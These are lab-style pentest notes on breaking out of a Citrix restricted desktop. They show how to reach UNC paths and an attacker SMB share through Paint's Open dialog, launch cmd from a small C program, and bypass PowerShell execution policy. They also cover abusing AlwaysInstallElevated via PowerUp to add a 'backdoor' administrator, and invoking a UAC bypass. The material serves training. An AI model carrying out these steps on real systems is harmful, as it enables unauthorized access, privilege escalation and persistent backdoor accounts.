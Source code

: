 # Citrix Breakout

most company use Citrix to allow employees to work remotely which block things like (CMD, File Explorer)

**Basic Methodology for break-out:**

1. Gain access to a `Dialog Box` like (Open, Save As)
2. Exploit the Dialog Box to achieve `command execution`. → use it to access C driver `\\127.0.0.1\c$\users\pmorgan`
3. `Escalate privileges` to gain higher levels of access → run exe files `C:\Windows\System32\cmd.exe`

**How To join Citrix environment ?**

sign in http://humongousretail.com/remote/ using RDP and use credential

***

## Bypassing Path Restrictions

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

![image.png](<../../../.gitbook/assets/image (4).png>)

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field

<figure><img src="../../../.gitbook/assets/image 1 (3).png" alt=""><figcaption></figcaption></figure>

### **Accessing SMB share from restricted environment**

Having restrictions set, File Explorer does not allow direct access to SMB shares on the attacker machine, we use UNC path within the Windows dialog box

**Run smb server on Attack box**

```bash
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Back in the Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear. Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files." Upon pressing the "Enter" key, entry into the share is achieved.

<figure><img src="../../../.gitbook/assets/image 2 (2) (1).png" alt=""><figcaption></figcaption></figure>

> open pwn.exe to display CMD

```c
// pwn.exe content
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory.

```powershell
# transfer from cmd to PS
powershell -ep bypass
```

![](<../../../.gitbook/assets/2025 07 16_01_15_12 Hack_The_Box_ _Academy_ _Brave.png>)

***

### **Modify existing shortcut file**

1. `Right-click` the desired shortcut.
2. Select `Properties`.
3. Within the `Target` field, modify the path to the intended folder for access.&#x20;

<figure><img src="../../../.gitbook/assets/image 3 (2) (1).png" alt=""><figcaption></figcaption></figure>

***

### **Script Execution**

create file with extension `.bat`, `.vbs`, or `.ps`

<figure><img src="../../../.gitbook/assets/image 4 (2) (1).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating Privileges**

For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system. We can also validate this using the Command Prompt by querying the corresponding registry keys:

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

```

&#x20;we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop. &#x20;

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

<figure><img src="../../../.gitbook/assets/image 5 (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## **Bypassing UAC**

```powershell
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```
